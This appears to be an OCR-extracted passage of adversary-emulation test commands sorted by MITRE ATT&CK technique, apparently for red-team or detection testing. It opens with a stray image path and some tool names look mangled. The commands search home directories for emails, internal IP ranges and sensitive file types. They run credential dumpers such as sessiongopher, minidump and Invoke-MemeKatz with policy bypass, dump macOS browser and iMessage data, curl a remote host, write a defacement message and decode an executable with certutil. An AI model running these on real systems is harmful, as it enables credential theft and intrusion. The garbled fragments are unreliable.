 ls -l /tmp/T1030
* cd #{folder_path}; split -b 5000000 T1030_urandom
ls -l #{folder_path}
##T1530: Data from Cloud Storage Object
##T1602: Data from Configuration Repository
##T1213: Data from Information Repositories
##T1005: Data from Local System
* pip install -q stormssh 2> /dev/null && storm list | sed 's/\x1b\[[0-9;]*m//g'
* pip install stormssh && storm list
* find $(echo ~#{host.user.name}) -type f -size -500k -maxdepth 5 -exec grep -EIr -o "\b[A-Za-z0-9._%+-]+@#{target.org.name}\b" 2>/dev/null {} \;
* curl #{remote.host.socket}
* find / -name '*.#{file.sensitive.extension}' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5
* find /Users -name '*.#{file.sensitive.extension}' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5
* Get-ChildItem C:\Users -Recurse -Include *.#{file.sensitive.extension} -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;
exit 0;
* find $(echo ~#{host.user.name}) -type f -size -500k -maxdepth 5 -exec grep -EIr -o "(($(echo #{domain.broadcast.ip} | cut -d. -f-2))\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)" 2>/dev/null {} \;
* powercmd.exe /c/collection/get_sql_column_sample_data
* powercmd.exe /c/collection/get_sql_query
* powercmd.exe /c/collection/minidump
* powercmd.exe /c/credentials/sessiongopher
* python/collection/osx/browser_dump
* python/collection/osx/imessage_dump
##T1039: Data from Network Shared Drive
##T1025: Data from Removable Media
##T1491: Defacement
* Set-Content -Path 'message.txt' -Value 'proof that this machine was hacked.'
* echo "proof that this machine was hacked." > message.txt
* .\Invoke-MemeKatz.ps1
* powercmd.exe /c.exe -ep bypass -c "Invoke-MemeKatz.ps1"
##T1140: Deobfuscate/Decode Files or Information
* ENCODED=$(python3 -c 'import base64;enc=base64.b64encode("Hello from Atomic Red Team test T1140!".encode());print(enc.decode())')
python3 -c "import base64;dec=base64.b64decode(\"$ENCODED\");print(dec.decode())"
python3 -c "import base64 as d;dec=d.b64decode(\"$ENCODED\");print(dec.decode())"
python3 -c "from base64 import b64decode;dec=b64decode(\"$ENCODED\");print(dec.decode())"
python3 -c "from base64 import b64decode as d;dec=d(\"$ENCODED\");print(dec.decode())"
echo $ENCODED | python3 -c "import base64,sys;dec=base64.b64decode(sys.stdin.read());print(dec.decode())"
echo $ENCODED > #{encoded_file} && python3 -c "import base64;dec=base64.b64decode(open('#{encoded_file}').read());print(dec.decode())"
* ENCODED=$(echo '#{message}' | xxd -ps -c 256)
printf $ENCODED | xxd -r -p
echo $ENCODED | xxd -r -p
echo $(echo $ENCODED) | xxd -r -p
echo $ENCODED > /tmp/T1140.encoded && xxd -r -p /tmp/T1140.encoded
echo $ENCODED > /tmp/T1140.encoded && xxd -r -p < /tmp/T1140.encoded
echo $ENCODED > /tmp/T1140.encoded && cat /tmp/T1140.encoded | xxd -r -p
echo $ENCODED > /tmp/T1140.encoded && cat < /tmp/T1140.encoded | xxd -r -p
* certutil -encode C:\Windows\System32\calc.exe %temp%\T1140_calc.txt
certutil -decode %temp%\T1140_calc.txt %temp%\T1140_calc_decoded.exe
* ENCODED=$(python3 -c 'import base64;enc=base64.b64encode("#{message}".encode());print(enc.decode())')
python3 -c "import base64;dec=base64.b64decode(\"$ENCODED\");print(dec.decode())"
python3 -c "import base64 as d;dec=d.b64decode(\"$ENCODED\");print(dec.decode())"
python3 -c "from base64 import b64decode;dec=b64decode(\"$ENCODED\");print(dec.decode())"
python3 -c "from base64 import b64decode as d;dec=d(\"$ENCODED\");print(dec.decode())"
echo $ENCODED | python3 -c "import base64,sys;dec=base64.b64decode(sys.stdin.read());print(dec.decode())"
